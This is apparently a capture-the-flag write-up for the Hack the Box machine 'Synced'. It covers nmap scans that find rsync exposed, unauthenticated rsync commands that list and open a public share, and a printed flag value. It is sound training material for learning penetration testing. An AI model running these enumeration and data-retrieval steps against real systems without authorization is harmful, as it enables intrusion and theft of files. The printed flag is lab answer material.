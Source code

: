 # Hack the Box - "Synced" - 10.129.228.37
# Enumeration
## Nmap
### Inital Scan
Command
```
nmap -A -vv -oA enum/nmap-initial 10.129.228.37
```

Output
```
PORT    STATE SERVICE REASON  VERSION
873/tcp open  rsync   syn-ack (protocol version 31)
```

### Full Scan
Command
```
nmap -A -vv -p- -oA enum/nmap-full 10.129.228.37
```

Output
```

```

---

# Vulnerabilities

Rsync is exposed.

Connect to target using rsync and list file shares.
```
rsync -ahvr rsync://10.129.228.37
```
![](../Attachments/Pasted%20image%2020230520204214.png)

Open File share.
```
rsync -ahvr rsync://10.129.228.37/public
```
![](../Attachments/Pasted%20image%2020230520204414.png)

---

# Loot

## Root/Admin
Command
```
cat flag.txt
```
>72eaf5344ebb84908ae543a719830519
![](../Attachments/Pasted%20image%2020230520204547.png)
